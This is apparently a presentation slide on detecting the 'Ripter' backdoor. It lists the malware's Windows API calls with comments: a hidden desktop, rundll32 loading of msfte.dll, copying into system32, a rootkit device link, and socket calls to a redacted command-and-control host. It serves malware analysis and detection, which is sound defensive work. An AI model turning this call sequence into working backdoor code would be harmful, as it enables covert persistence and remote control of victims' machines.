

# Ripter detection
//-----------checks if it is a system process
_stricmp (%username%, "system")

//-----------------Desktop created------
CreateDesktopA ("KST_106")

//------------backdoor initialization----------------------------
CreateProcessA ("cmd /c rundll32 \"C:\ProgramData\BaseKst\msfte.dll\", Rundll32Call")

//------------checks if another copy was already executed---
OpenEventA ("Once1Running")

//------------move to system32-------------------------
MoveFileA ("C:\ProgramData\BaseKst\msfte.dll","C:\Windows\system32\msfte.dll")

//------------C&C communication-------------------
CreateProcessA ("rundll32.exe \"C:\ProgramData\BaseKst\run.dat\", Rundll32Call")

//------------rootkit communication-------------------------
CreateFileW (\\.\My_Symobliclink)

//------------Waiting for commands from C&C----------
WSAStartup ()
socket ()
gethostbyname ("www.******.****.ms")
send ("\05\10")
recv()

31